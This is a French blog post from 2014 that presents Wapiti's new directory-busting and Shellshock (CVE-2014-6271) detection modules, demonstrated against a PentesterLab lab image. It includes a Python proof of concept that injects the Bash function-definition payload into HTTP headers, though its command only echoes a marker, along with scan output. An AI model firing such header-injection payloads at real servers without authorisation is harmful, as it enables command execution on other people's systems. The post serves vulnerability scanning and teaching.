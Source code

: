 ```yaml
---
title: "Wapiti : modules Shellshock et Buster"
tags: [Coding, Wapiti]
---
```


À l'heure de ces lignes, sur la version de développement courante (c'est-à-dire [sur le SVN de SourceForge](https://sourceforge.net/p/wapiti/code/HEAD/tree/)) deux modules viennent enrichir le scanneur de vulnérabilités web [Wapiti](http://wapiti.sourceforge.net/).  

Premièrement il y a le module `mod_buster` qui est l'équivalent d'un *DirBuster* ou d'un *dirb* : il permet de rechercher des dossiers et fichiers présents sur le serveur web, mais non référencés via les pages web présentes (ce qui est le rôle de `lswww`).  

Le second module est `mod_shellshock` qui comme son nom l'indique permet de détecter les scripts vulnérables à la faille `CVE-2014-6271` aussi connue sous le nom de *Bash bug* ou *ShellShock*.  

Cette faille découverte par *Stephane Chazelas* permet à un attaquant de faire exécuter des commandes en passant (généralement indirectement) des variables d'environnement spécifiquement formatées à un programme vulnérable (exemple : script CGI).  

C'est l'explication courte, je vous invite à faire des recherches pour en savoir plus.  

Dans tous les cas, j'ai profité [de l'image disque vulnérable créée par PentesterLab](https://twitter.com/PentesterLab/status/515079459284594688) pour créer ce module.  

J'ai d'abord écrit le *PoC* suivant qui n'est pas parfait, car ne fonctionne que dans les cas où l'output Bash est effectivement retourné. Le payload retourne deux retours à la ligne (pour forcer la séparation avec les entêtes HTTP) puis une chaîne que Bash doit décoder permettant de savoir si l'interprétation a réussi.  

```python
import requests
import sys
import random
import string

if len(sys.argv) != 2:
    print "Shellshock tester by devloop"
    print "Usage: {0} ".format(sys.argv[0])
 sys.exit()

empty_func = "() { :;}; "

random_bytes = [random.choice(string.hexdigits) for _ in range(32)]
bash_string = ""
for c in random_bytes:
 bash_string += "\\x" + c.encode("hex_codec")

cmd = "echo; echo; echo -e '{0}';".format(bash_string)

url = sys.argv[1]
hdrs = {
 "user-agent": empty_func + cmd,
 "referer": empty_func + cmd,
 "cookie": empty_func + cmd
 }
print "[*] Testing", url
try:
 r = requests.get(url, headers=hdrs)
 print "[*] Returned status", r.status_code

 if "".join(random_bytes) in r.content:
 print "[+] Pattern found in response, url seems vulnerable !"
 else:
 print "[-] Pattern doesn't found in response, url doesn't seems vulnerable"
except requests.exceptions.MissingSchema:
 print "[!] Error, check the url"
```

Maintenant avec la version de développement de Wapiti on peut résoudre l'exercice de cette façon :  

## Chercher des CGIs avec mod_buster

```console
$ ./bin/wapiti http://10.0.2.15/ -m buster
Wapiti-2.3.0 (wapiti.sourceforge.net)

 Note
========
Le scan a été sauvegardé dans le fichier /home/devloop/.wapiti/scans/10.0.2.15.xml
Vous pouvez l'utiliser pour lancer de futures attaques sans avoir à relancer le scan via le paramètre "-k"
[*] Chargement des modules :
         mod_crlf, mod_exec, mod_file, mod_sql, mod_xss, mod_backup, mod_htaccess, mod_blindsql, mod_permanentxss, mod_nikto, mod_delay, mod_buster, mod_shellshock

[+] Lancement du module buster
Found webpage http://10.0.2.15/css/
Found webpage http://10.0.2.15/js/
Found webpage http://10.0.2.15/favicon.ico
Found webpage http://10.0.2.15/cgi-bin/
Found webpage http://10.0.2.15/cgi-bin/status
```

## Tester la vulnérabilité avec mod_shellshock

```console
$ ./bin/wapiti http://10.0.2.15/cgi-bin/status -b page -m shellshock
Wapiti-2.3.0 (wapiti.sourceforge.net)

 Note
========
Le scan a été sauvegardé dans le fichier /home/devloop/.wapiti/scans/10.0.2.15.xml
Vous pouvez l'utiliser pour lancer de futures attaques sans avoir à relancer le scan via le paramètre "-k"
[*] Chargement des modules :
         mod_crlf, mod_exec, mod_file, mod_sql, mod_xss, mod_backup, mod_htaccess, mod_blindsql, mod_permanentxss, mod_nikto, mod_delay, mod_buster, mod_shellshock

[+] Lancement du module shellshock
URL http://10.0.2.15/cgi-bin/status seems vulnerable to Shellshock attack !
```

Ici j'ai spécifié via `-b` un périmètre d'action se limitant à l'URL passée en argument.  

L'exploitation en elle-même peut alors être faite en modifiant le PoC ou en utilisant par exemple le module créé par *Metasploit*.  

[Le module *Shellshock* de *Wapiti*](https://sourceforge.net/p/wapiti/code/HEAD/tree/trunk/wapitiCore/attack/mod_shellshock.py) se limite à une soixantaine de lignes de code ce qui montre à quel point il est facile d'écrire un module *Wapiti* depuis la version 2.3.0.

*Published September 28 2014 at 18:05*
